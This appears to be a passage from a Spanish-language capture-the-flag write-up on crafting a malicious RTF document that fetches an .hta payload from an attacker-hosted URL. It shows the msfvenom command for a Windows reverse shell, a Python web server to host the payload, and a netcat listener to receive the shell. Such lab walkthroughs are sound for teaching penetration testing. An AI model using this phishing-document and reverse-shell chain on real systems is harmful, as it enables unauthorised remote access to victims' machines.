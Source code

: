 Vamos a desglosar los parámetros que utilizamos:

- `-M gen` indica al script que queremos generar (gen) un archivo RTF.
- `-w important.rtf` especifica el nombre de nuestro archivo RTF resultante.
- `-u http://10.10.14.11/revshell.hta` es la URL que será invocada cuando se abra el archivo RTF. Esta URL apunta a nuestro archivo .hta malicioso que alojaremos en nuestro servidor.
- `-x 0` indica que no queremos ofuscar el archivo RTF. Una opción de ofuscación podría ser útil para evadir algunas formas de detección, pero en este caso no es necesario.

#### Creación del Archivo .HTA Malicioso

Para crear el archivo **.hta malicioso**, utilizaremos la herramienta `msfvenom`. Primero, comprobamos si la herramienta ofrece el formato .hta con el siguiente comando:

```bash
r1pfr4n@parrot> msfvenom --list formats | grep hta
```

Una vez identificado el formato (en nuestro caso, **hta-psh**), ejecutamos el siguiente comando para crear nuestro archivo .hta malicioso:

```bash
r1pfr4n@parrot> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f hta-psh > revshell.hta
```

De nuevo, vamos a desglosar los parámetros que utilizamos:

- `-p windows/x64/shell_reverse_tcp` indica que queremos crear una shell inversa TCP para una máquina Windows x64.
- `LHOST=10.10.14.11` y `LPORT=443` especifican nuestra dirección IP y puerto, respectivamente. Estos serán el destino de la shell inversa una vez se ejecute el archivo .hta.
- `-f hta-psh` indica que queremos que la salida esté en formato .hta.
- `> revshell.hta` redirige la salida del comando a nuestro archivo `revshell.hta`.

#### Despliegue del Servidor y Escucha para la Shell Inversa

Antes de enviar nuestro archivo RTF malicioso, necesitamos asegurarnos de que nuestro archivo .**hta malicioso está disponible para que el sistema objetivo lo descargue**. Para ello, desplegamos un servidor web simple con Python utilizando el siguiente comando:

```bash
r1pfr4n@parrot> sudo python3 -m http.server 80
```

Este comando inicia un servidor HTTP en el puerto 80, que es el puerto por defecto para las comunicaciones HTTP.

También necesitamos poner en escucha nuestra máquina para **recibir la shell inversa** una vez se ejecute el archivo .hta. Para ello, utilizamos el siguiente comando:

```bash
r1pfr4n@parrot> sudo rlwrap nc -nlvp 443
```

Este comando inicia una escucha en el puerto 443, que es el puerto que especificamos cuando creamos nuestro archivo .hta con `msfvenom`. 
